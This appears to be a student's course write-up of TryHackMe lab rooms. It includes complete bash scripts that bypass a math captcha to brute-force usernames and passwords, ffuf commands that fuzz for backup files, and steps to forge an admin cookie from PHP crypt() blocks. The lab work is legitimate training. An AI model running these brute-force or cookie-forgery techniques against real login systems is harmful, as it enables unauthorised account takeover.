


# Fianl Project
## Solving TryHackMe Rooms

By: Nathan Metens

---
## Intro

This is the final project for Intro to Computer Security. In this final, I completed 3 TryHackMe Rooms. The hardest one, was the "easiest" one, the easiest, was the "Security Footage" room. On average, each room took about 1-2 days to solve, working 3+ hours on each per day. This was a struggle, but I learned so much. I have a video [here]() where I go through each Room and how I solved it. This is just the documentation, explaining everything in text, showing capture, and the code.

---
## Table of Contents
1. [Capture!](#capture)
2. [Security Footage](#security-footage)
3. [Crypto Failure](#crypto-failure)


---
## Capture!
### Can you bypass the login form?
**Dificulty:** *Easy*

Although the difficaulty was "easy", this one took the longest to solve.


The room had two files to download: `usernames.txt` and `passwords.txt`:


At first, I tried random usernames to see what the message would be if I inputed something wrong:



After 10 failed usernames attempts with a bas password, the error came up with a captcha math problem:


Next, I went to the command line and used curl for faster web access. The main curl command was `curl http://10.201.63.166`. This redirected me to the login page and returned the GET. Next, I posted to the page with this curl command: `curl -X POST http://10.201.63.166/login -d "username=metens&password=pass"`, where the `-d` is for the data in the form. Now, I could enumerate much faster and saw that when I solved the captcha, the message would once again tell me that the username was non-existing:


To solve the captcha in curl, I simply added `&captcha=<result>` to the string containing the username and password.

I developed this script to continuously test each username in the `usernames.txt` file until it returned a "Invalid password" error, showing that the username was correct, but the password not.


```sh
#!/bin/bash

usernames="usernames.txt" # The usernames file
password="wrongpass"      # default password
url="http://$1/login"     # program takes ip address as first arg
attempt=223

> responses.txt

# Loop through usernames text file
tail -n +$attempt $usernames | while IFS= read -r username; do

    username=$(echo "$username" | tr -d '\r') # All usernames have carriage returns in the usernames.txt
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request with current username
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")
    echo "$response" >> responses.txt

    # Detect captcha from the response:
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

	# Extract and solve captcha expression from response:
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        # Solve captcha:
        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with captcha answer:
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
            echo "$response" >> responses.txt
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "does not exist"; then
        echo "$attempt -> The user $username does not exist"

    elif echo "$response" | grep -q "Invalid password"; then
        echo "***** $attempt -> Valid Username: $username *****"
        exit 0
    else 
	    continue
    fi

    ((attempt++))
done
```

After about 5-10 minutes of the program running, it finally found the correct username that returned "Invalid password":


We have successfully enumerated the username. It took **307 attempts**! Now, that we have the username, we can enumerate the password. To do that, we need to slightly update the script, I created a new one:

```sh
#!/bin/bash

passwords="passwords.txt"
url="http://$1/login"
username=$2

attempt=300

tail -n +$attempt $passwords | while IFS= read -r password; do

    password=$(echo "$password" | tr -d '\r') # In case of carriage return
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")

    # Detect Captcha
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

        # Extract and solve captcha expression
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with CAPTCHA answer
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "Invalid password"; then
        echo "Invalid password: $password"
    else
        echo "**** Password cracked for '$username': $password ****"
        exit 1
    fi

    ((attempt++))
done
```

After 344 attempts, the password was also enumerated. So the username is "natalie" and the password is "sk8board". I went back to the url in the web and typed those in and received the flag:




This room was about using basic curl commands, bash scripting for enumeration, and using brute force on all of the passwords and usernames in the given text files. It reminds me of using the rockyou.txt file in some of the labs to crack passwords using hashcat, but this time, through curl.

---
## Security Footage
### Perform digital forensics on a network capture to recover footage from a camera.
**Dificulty:** *Medium*

---
## Crypto Failure
### Encrypting your own military-grade encryption is usually not the best idea.
**Dificulty:** *Medium*


The first thing I see is this:


I am logged in as guest, and there is a long password looking thing that is hidden. Then there is a message saying the "SSO cookie is protected using military-grade en**crypt**ion". The **crypt** highlight seems important right off the bat, so I searched it up and found [this](https://www.php.net/manual/en/function.crypt.php). In PHP, we can call a function called `crypt()`. It takes a string, and a salt. The salt allows the first string to becom hashed. This is cool.

The next thing that was interesting was "SSO cookie". I searched the web and found this: "An SSO cookie, or Single Sign-On cookie, is a small piece of data stored in a user's browser that allows them to access multiple applications or websites with a single login." So then I figured I'd investigate the page using inspect mode:


If we look more closely in the inspection and open the html, there is a comment that says "remember to remove .bak files". I searched the web and found this: "bak files are typically backup files used by various software applications to store copies of data. They are often created automatically when a program is about to overwrite an existing file, acting as a safeguard against data loss." Interesting, maybe I can access a `.bak` file through the url?


I searched online for a way to curl different files ending with the `.bak` extension. I found [this tool](https://asciinema.org/a/211350) called `ffuf`. It is a fast web fuzzer that searches for files on a url using a common wordlist. I used `locate common.txt` to see where my common.txt wordlist was located and it is in `/usr/share/wordlists/dirb/common.txt` in my kali vm. The command using `ffuf` is : `ffuf -u http://10.201.8.255/FUZZ.bak` -w /usr/share/wordlists/dirb/common.txt`, where `-u` is the target url to search, and `-w` is the wordlist. `FUZZ` is what is replaced by each word in the common text file. Here is what I found:


The `ffuf` tool found `index.php.bak` as one of the files, so lets visit it: `curl htt://10.201.8.255/index.php.bak`:


The .bak files shows that each cookie is created using the `$user` and the `$enc_secret_key` in the `generate_cookie` function. There is a `generate_salt` function that makes a salt of size 2 characters. And the check for the first flag is when the user == admin, not guest.

I see the cookie here, and it is indeed set this way for the guest user. Now, I went to the command lined and typed `curl -I http://10.201.28.11` to see only the headers of the GET response:


Right away, we can see that the cookie is different than the last time we fetched the page. After some investigation on the cookie itself, I began to notice a pattern. I looked hard at each cookie and saw that there were some `%2F` in there, this looks like a special encoding, and indeed it is! I found [this source on geeks for geeks](https://www.w3schools.com/tags/ref_urlencode.ASP) that shows what the encoding translates to:


Geeks for Geeks said "Your browser will encode input, according to the character-set used in your page. The default character-set in HTML5 is UTF-8." So each cookie is a url encoded string. This means I can decode them. I found [this page here for url decoding](https://www.urldecoder.org/). I decoded two cookies I fetched from the url, and found a pattern:


```
// The first url-decoded cookie:
RXxvlsMaeHe5URXrJVbD8zZ4nkRXEwZI8bhi..cRXvtYh5l5EBtIRXqC5B7tEo6T.RXhnpA/XzKVOURXsDqDjyoBgWcRXX86PX1JkHnARXlDxDPYNU2xwRX7ExYaVdHQ82RXLdFhenadnlYRXjAFBN.glgAsRX/XEzkeYYgr.RXp8.J05UGQYURXM9RxACEm8eURXRCcStHme13oRXAbZixFAnxe2RXzW1DwG/NNdgRXRCaaDN21g8oRXqQ4hwNqRCakRXWYWirH33lewRXmY9pJ5PrOmg

// A pattern emerges:
RXxvlsMaeHe5U
RXrJVbD8zZ4nk
RXEwZI8bhi..c
RXvtYh5l5EBtI
RXqC5B7tEo6T.
RXhnpA/XzKVOU
RXsDqDjyoBgWc
RXX86PX1JkHnA
RXlDxDPYNU2xw
RX7ExYaVdHQ82
RXLdFhenadnlY
RXjAFBN.glgAs
RX/XEzkeYYgr.
RXp8.J05UGQYU
RXM9RxACEm8eU
RXRCcStHme13o
RXAbZixFAnxe2
RXzW1DwG/NNdg
RXRCaaDN21g8o
RXqQ4hwNqRCak
RXWYWirH33lew
RXmY9pJ5PrOmg


// Here is another cookie from a separate fetch (url decoded):
K4TrHf32Nu9G.
K4FrTexv8C4VU
K4NJcVzyVYEzY
K4Iyl.ZSF9GzU
K46yDRqwK7EdU
K4.dySrT4OqCU
K4VfcsBYZaBF2
K4bkC20QpLfiY
K4oT6ozqf1zwE
K4OVShJS68db6
K4q02aCkYV02s
K4pPGaUryQvuo
K4BsowGU2K8fg
K4U84anNv27jw
K4gAoVne/4Vt.
K4Vso6wOHZAXU
K4SK9J8148JZg
K4/gPoUIjXQvk
K4v2H8OF9qZzg
K4ySMUEaDhxOU
K4Fxc6OjJk2vQ
K4tmO.adIxnao
K4ttTk.OLLGqw
K4hjWOKhaYzXk
K4iFUbubW7BUY
K4gcq/s7xWkoQ
K4fVm9kQ2U2X.
K4sOJCu7ZIO8o
K4FsXb3FcELfg
```

This pattern shows that the first two characters of each 13 character long block is the same. I went back to investigate the lecture slides "CryptAndPasswords". The first two characters of each block in the cookie appear to be a salt. And we learned that a short salt is the wrong way to go. Since the salt must be unique per user and per password, this is why it is a new random salt each time we fetch the url.

If we remember, the "Set-Cookie" field returned when investigating the headers was set to guest. I changed it to admin and refreshed the page:


This did nothing, and actually logged me out! It turns out that the cookie string is made up of the following sections:

"user:user_agent:encrypted_key".

The `:` are the delimiters between each. If we curl again, this time with the verbose option, we can see the user agent:


The hashed cookie then looks like this:

"guest:curl/8.14.1:<encrypted_key>"

Now, if we use the php crypt function I found earlier, and use the salt "Fh", we get this:


The result of the crypt function is the same as the first 13 bytes of data in the verbose curl!
This means that every 8 bytes in the unhashed connection of terms, we hash it using the crypt function.

The next thing to do is to hash the admin user into the cookie to trick the browser that we are logged in as admin. First I ran the crypt function on the admin user with the salt "Fh":

```php
echo crypt("admin:cu", "Fh"); // FhktSQgm9fXKU
```

The trick is to perform a curl that saves the cookie in a txt file, then edit the first chunk in the cookie to have the admin user, and then curl the url with the cookie:

```
curl -I -c cookie.txt http://<ip>
// Edit the cookie with the new random salt and resent with admin instead of guest
curl -I -b cookie.txt http://<ip>
```


As we can see, we have successfully recieved the first flag after tricking the browser that we were admin, by changing the user hash in the secure cookie variable.

Now, the fetched page says "Now I want the key". That is the part that comes after the user and the user_agent in the colon separated cookie.

To do this, I wrote a script with the help of AI that will curl the ip address once, and then decipher the secret key:

```sh

```


